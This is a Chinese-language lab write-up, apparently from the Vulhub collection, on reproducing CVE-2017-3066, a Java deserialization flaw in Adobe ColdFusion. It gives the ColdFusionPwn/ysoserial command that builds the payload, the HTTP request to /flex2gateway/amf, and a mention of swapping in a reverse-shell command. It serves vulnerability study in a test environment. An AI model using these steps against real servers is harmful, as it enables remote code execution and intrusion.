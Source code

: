 # Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html

## 漏洞环境

启动漏洞环境：

```
docker-compose up -d
```

等待一段时间，环境启动成功，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

我们使用参考链接中的[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC：

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser
```

POC生成于poc.ser文件中，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf：

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

![](1.png)

进入容器中，发现`/tmp/success`已成功创建：

![](2.png)

将POC改成反弹命令，成功拿到shell：

![](3.png)